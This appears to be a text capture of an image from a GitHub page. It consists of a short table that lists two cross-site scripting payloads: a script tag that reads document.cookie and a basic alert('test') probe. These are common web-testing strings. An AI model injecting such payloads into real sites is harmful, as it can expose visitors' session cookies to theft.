 | Vulnerability               | Payload                                                |
|-----------------------------|--------------------------------------------------------|
| XSS                         |       <script>print(document.cookie)</script>          |
|-----------------------------|--------------------------------------------------------|
| XSS2                         |       <script>alert('test')</script>          |